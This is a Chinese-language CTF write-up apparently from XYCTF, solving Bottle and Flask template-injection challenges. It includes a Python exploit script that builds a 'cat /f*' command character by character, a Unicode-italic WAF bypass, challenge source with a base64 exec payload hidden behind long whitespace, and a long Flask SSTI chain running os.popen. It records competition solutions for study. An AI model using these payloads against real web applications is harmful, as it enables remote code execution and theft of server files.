

类似命令执行长度限制绕过，Python 任意模块都允许动态添加属性，可以利用这种特性把 `payload`挨个写入属性中，从而绕过 25 长度限制

```
import os
os.a = '123'
print(os.a)
# 123
```


最后可以通过 `Bottle`模板函数 `include`返回文件内容


编写 exp，注意由于 `payload` 中用的是单引号，所以 `os.a="{x}"`这里需要使用双引号分开

```
import requests

url = 'http://192.168.137.139:5000/attack'
payload = "__import__('os').system('cat /f*>o')"

p = [payload[i:i+1] for i in range(0,len(payload))]

flag = True

for x in p:
    if flag:
        requests.get(url=url, params={"payload": f'\n%import os;os.a="{x}"'})
        flag = False
    else:
        requests.get(url=url, params={"payload": f'\n%import os;os.a+="{x}"'})

requests.get(url=url, params={"payload":'\n%import os;eval(os.a)'})
print(requests.get(url=url, params={"payload":'\n%include("o")'}).text)
```



# 出题人又疯

源码如下
```
# -*- encoding: utf-8 -*- 
''' 
@File    :   app.py 
@Time    :   2025/03/29 15:52:17 
@Author  :   LamentXU 
''' 
import bottle 
''' 
flag in /flag 
''' 
@bottle.route('/') 
def index(): 
    return 'Hello, World!' 
blacklist = [ 
    'o', '\\', '\r', '\n', 'import', 'eval', 'exec', 'system', ' ', ';' , 'read' 
] 
@bottle.route('/attack') 
def attack(): 
    payload = bottle.request.query.get('payload') 
    if payload and len(payload) < 25 and all(c not in payload for c in blacklist): 
        print(payload) 
        return bottle.template('hello '+ payload) 
    else: 
        bottle.abort(400, 'Invalid payload') 
if __name__ == '__main__': 
    bottle.run(host='0.0.0.0', port=5000) 
```


已疯的 `Revenge`，这回 `ban` 掉了很多关键词，得另寻绕过方法
在 `Python`中支持解析斜字体，执行效果相同，字符串内的斜体无法被正确解析



利用这一点绕过 `WAF`

```
/attack?payload={&#123;%BApen(%27/flag%27).re%aad()}}
```



源码层面的原理分析观摩 `LamentXU`师傅的文章，仔细分析了 `Bottle.template()`源码以及`Python`特性

https://www.cnblogs.com/LAMENTXU/articles/18805019


# Now you see me 1

源码
```
# -*- encoding: utf-8 -*-
'''
@File    :   app.py
@Time    :   2024/12/27 18:27:15
@Author  :   LamentXU 

运行，然后你会发现启动了一个flask服务。这是怎么做到的呢？
注：本题为彻底的白盒题，服务端代码与附件中的代码一模一样。不用怀疑附件的真实性。
'''
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(__import__("base64").b64decode('IyBZT1UgRk9VTkQgTUUgOykKIyAtKi0gZW5jb2Rpbmc6IHV0Zi04IC0qLQonJycKQEZpbGUgICAgOiAgIHNyYy5weQpAVGltZSAgICA6ICAgMjAyNS8wMy8yOSAwMToxMDozNwpAQXV0aG9yICA6ICAgTGFtZW50WFUgCicnJwppbXBvcnQgZmxhc2sKaW1wb3J0IHN5cwplbmFibGVfaG9vayA9ICBGYWxzZQpjb3VudGVyID0gMApkZWYgYXVkaXRfY2hlY2tlcihldmVudCxhcmdzKToKICAgIGdsb2JhbCBjb3VudGVyCiAgICBpZiBlbmFibGVfaG9vazoKICAgICAgICBpZiBldmVudCBpbiBbImV4ZWMiLCAiY29tcGlsZSJdOgogICAgICAgICAgICBjb3VudGVyICs9IDEKICAgICAgICAgICAgaWYgY291bnRlciA+IDQ6CiAgICAgICAgICAgICAgICByYWlzZSBSdW50aW1lRXJyb3IoZXZlbnQpCgpsb2NrX3dpdGhpbiA9IFsKICAgICJkZWJ1ZyIsICJmb3JtIiwgImFyZ3MiLCAidmFsdWVzIiwgCiAgICAiaGVhZGVycyIsICJqc29uIiwgInN0cmVhbSIsICJlbnZpcm9uIiwKICAgICJmaWxlcyIsICJtZXRob2QiLCAiY29va2llcyIsICJhcHBsaWNhdGlvbiIsIAogICAgJ2RhdGEnLCAndXJsJyAsJ1wnJywgJyInLCAKICAgICJnZXRhdHRyIiwgIl8iLCAie3siLCAifX0iLCAKICAgICJbIiwgIl0iLCAiXFwiLCAiLyIsInNlbGYiLCAKICAgICJsaXBzdW0iLCAiY3ljbGVyIiwgImpvaW5lciIsICJuYW1lc3BhY2UiLCAKICAgICJpbml0IiwgImRpciIsICJqb2luIiwgImRlY29kZSIsIAogICAgImJhdGNoIiwgImZpcnN0IiwgImxhc3QiICwgCiAgICAiICIsImRpY3QiLCJsaXN0IiwiZy4iLAogICAgIm9zIiwgInN1YnByb2Nlc3MiLAogICAgImd8YSIsICJHTE9CQUxTIiwgImxvd2VyIiwgInVwcGVyIiwKICAgICJCVUlMVElOUyIsICJzZWxlY3QiLCAiV0hPQU1JIiwgInBhdGgiLAogICAgIm9zIiwgInBvcGVuIiwgImNhdCIsICJubCIsICJhcHAiLCAic2V0YXR0ciIsICJ0cmFuc2xhdGUiLAogICAgInNvcnQiLCAiYmFzZTY0IiwgImVuY29kZSIsICJcXHUiLCAicG9wIiwgInJlZmVyZXIiLAogICAgIlRoZSBjbG9zZXIgeW91IHNlZSwgdGhlIGxlc3NlciB5b3UgZmluZC4iXSAKICAgICAgICAjIEkgaGF0ZSBhbGwgdGhlc2UuCmFwcCA9IGZsYXNrLkZsYXNrKF9fbmFtZV9fKQpAYXBwLnJvdXRlKCcvJykKZGVmIGluZGV4KCk6CiAgICByZXR1cm4gJ3RyeSAvSDNkZGVuX3JvdXRlJwpAYXBwLnJvdXRlKCcvSDNkZGVuX3JvdXRlJykKZGVmIHIzYWxfaW5zMWRlX3RoMHVnaHQoKToKICAgIGdsb2JhbCBlbmFibGVfaG9vaywgY291bnRlcgogICAgbmFtZSA9IGZsYXNrLnJlcXVlc3QuYXJncy5nZXQoJ015X2luczFkZV93MHIxZCcpCiAgICBpZiBuYW1lOgogICAgICAgIHRyeToKICAgICAgICAgICAgaWYgbmFtZS5zdGFydHN3aXRoKCJGb2xsb3cteW91ci1oZWFydC0iKToKICAgICAgICAgICAgICAgIGZvciBpIGluIGxvY2tfd2l0aGluOgogICAgICAgICAgICAgICAgICAgIGlmIGkgaW4gbmFtZToKICAgICAgICAgICAgICAgICAgICAgICAgcmV0dXJuICdOT1BFLicKICAgICAgICAgICAgICAgIGVuYWJsZV9ob29rID0gVHJ1ZQogICAgICAgICAgICAgICAgYSA9IGZsYXNrLnJlbmRlcl90ZW1wbGF0ZV9zdHJpbmcoJ3sjJytmJ3tuYW1lfScrJyN9JykKICAgICAgICAgICAgICAgIGVuYWJsZV9ob29rID0gRmFsc2UKICAgICAgICAgICAgICAgIGNvdW50ZXIgPSAwCiAgICAgICAgICAgICAgICByZXR1cm4gYQogICAgICAgICAgICBlbHNlOgogICAgICAgICAgICAgICAgcmV0dXJuICdNeSBpbnNpZGUgd29ybGQgaXMgYWx3YXlzIGhpZGRlbi4nCiAgICAgICAgZXhjZXB0IFJ1bnRpbWVFcnJvciBhcyBlOgogICAgICAgICAgICBjb3VudGVyID0gMAogICAgICAgICAgICByZXR1cm4gJ05PLicKICAgICAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgICAgIHJldHVybiAnRXJyb3InCiAgICBlbHNlOgogICAgICAgIHJldHVybiAnV2VsY29tZSB0byBIaWRkZW5fcm91dGUhJwoKaWYgX19uYW1lX18gPT0gJ19fbWFpbl9fJzoKICAgIGltcG9ydCBvcwogICAgdHJ5OgogICAgICAgIGltcG9ydCBfcG9zaXhzdWJwcm9jZXNzCiAgICAgICAgZGVsIF9wb3NpeHN1YnByb2Nlc3MuZm9ya19leGVjCiAgICBleGNlcHQ6CiAgICAgICAgcGFzcwogICAgaW1wb3J0IHN1YnByb2Nlc3MKICAgIGRlbCBvcy5wb3BlbgogICAgZGVsIG9zLnN5c3RlbQogICAgZGVsIHN1YnByb2Nlc3MuUG9wZW4KICAgIGRlbCBzdWJwcm9jZXNzLmNhbGwKICAgIGRlbCBzdWJwcm9jZXNzLnJ1bgogICAgZGVsIHN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0CiAgICBkZWwgc3VicHJvY2Vzcy5nZXRvdXRwdXQKICAgIGRlbCBzdWJwcm9jZXNzLmNoZWNrX2NhbGwKICAgIGRlbCBzdWJwcm9jZXNzLmdldHN0YXR1c291dHB1dAogICAgZGVsIHN1YnByb2Nlc3MuUElQRQogICAgZGVsIHN1YnByb2Nlc3MuU1RET1VUCiAgICBkZWwgc3VicHJvY2Vzcy5DYWxsZWRQcm9jZXNzRXJyb3IKICAgIGRlbCBzdWJwcm9jZXNzLlRpbWVvdXRFeHBpcmVkCiAgICBkZWwgc3VicHJvY2Vzcy5TdWJwcm9jZXNzRXJyb3IKICAgIHN5cy5hZGRhdWRpdGhvb2soYXVkaXRfY2hlY2tlcikKICAgIGFwcC5ydW4oZGVidWc9RmFsc2UsIGhvc3Q9JzAuMC4wLjAnLCBwb3J0PTUwMDApCg=='))                                                                 
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")                                                                 
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
```


核心代码被藏起来了。将代码`Base64`解码如下

```
# YOU FOUND ME ;)
# -*- encoding: utf-8 -*-
'''
@File    :   src.py
@Time    :   2025/03/29 01:10:37
@Author  :   LamentXU 
'''
import flask
import sys
enable_hook =  False
counter = 0
def audit_checker(event,args):
    global counter
    if enable_hook:
        if event in ["exec", "compile"]:
            counter += 1
            if counter > 4:
                raise RuntimeError(event)

lock_within = [
    "debug", "form", "args", "values", 
    "headers", "json", "stream", "environ",
    "files", "method", "cookies", "application", 
    'data', 'url' ,'\'', '"', 
    "getattr", "_", "{{", "}}", 
    "[", "]", "\\", "/","self", 
    "lipsum", "cycler", "joiner", "namespace", 
    "init", "dir", "join", "decode", 
    "batch", "first", "last" , 
    " ","dict","list","g.",
    "os", "subprocess",
    "g|a", "GLOBALS", "lower", "upper",
    "BUILTINS", "select", "WHOAMI", "path",
    "os", "popen", "cat", "nl", "app", "setattr", "translate",
    "sort", "base64", "encode", "\\u", "pop", "referer",
    "The closer you see, the lesser you find."] 
        # I hate all these.
app = flask.Flask(__name__)
@app.route('/')
def index():
    return 'try /H3dden_route'
@app.route('/H3dden_route')
def r3al_ins1de_th0ught():
    global enable_hook, counter
    name = flask.request.args.get('My_ins1de_w0r1d')
    if name:
        try:
            if name.startswith("Follow-your-heart-"):
                for i in lock_within:
                    if i in name:
                        return 'NOPE.'
                enable_hook = True
                a = flask.render_template_string('{#'+f'{name}'+'#}')
                enable_hook = False
                counter = 0
                return a
            else:
                return 'My inside world is always hidden.'
        except RuntimeError as e:
            counter = 0
            return 'NO.'
        except Exception as e:
            return 'Error'
    else:
        return 'Welcome to Hidden_route!'

if __name__ == '__main__':
    import os
    try:
        import _posixsubprocess
        del _posixsubprocess.fork_exec
    except:
        pass
    import subprocess
    del os.popen
    del os.system
    del subprocess.Popen
    del subprocess.call
    del subprocess.run
    del subprocess.check_output
    del subprocess.getoutput
    del subprocess.check_call
    del subprocess.getstatusoutput
    del subprocess.PIPE
    del subprocess.STDOUT
    del subprocess.CalledProcessError
    del subprocess.TimeoutExpired
    del subprocess.SubprocessError
    sys.addaudithook(audit_checker)
    app.run(debug=False, host='0.0.0.0', port=5000)
```


很明显的 `Flask SSTI`，传参必须为 `Follow-your-heart-`开头，`{#`是 `flask`特色注释，用 `#}`闭合前面，黑名单过滤了 `{{}}`，可以使用 ``
```
/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-#}{#
```

黑名单筛了很多关键词，但发现没有过滤 `request`和`.` 可以借此去调用 `request`对象中的一些属性
```
/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-#}{#
```


在 `request`中有这样一些能接收请求头中的特定值的属性，如`pragma、mimetype`，同时并没有在黑名单中，可以通过其接收指定字符串来调用函数
```
/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%23&0=a

# Content-Type: args
```
通过 `|string`将值转为字符串形式，看到成功打印出 a

利用这种方式来尝试 `SSTI`，先请求个 `__class__`试试

```
&0=__class__
```

这很容易出错，需要耐心构造，最终 `Payload` 如下

```
#().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(137).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')("__import__('os').popen('ls -al /').read()")

/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-#}{%print(()|attr((request|attr(request.mimetype)).get(0|string))|attr((request|attr(request.mimetype)).get(1|string))|attr((request|attr(request.mimetype)).get(2|string))()|attr((request|attr(request.mimetype)).get(3|string))(137)|attr((request|attr(request.mimetype)).get(4|string))|attr((request|attr(request.mimetype)).get(5|string))|attr((request|attr(request.mimetype)).get(3|string))((request|attr(request.mimetype)).get(6|string))|attr((request|attr(request.mimetype)).get(3|string))((request|attr(request.mimetype)).get(7|string))((request|attr(request.mimetype)).get(8|string)))%}{#&0=__class__&1=__base__&2=__subclasses__&3=__getitem__&4=__init__&5=__globals__&6=__builtins__&7=eval&8=__import__('os').popen('ls -al /').read()
```



# Now you see me 2


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/xyctf/  

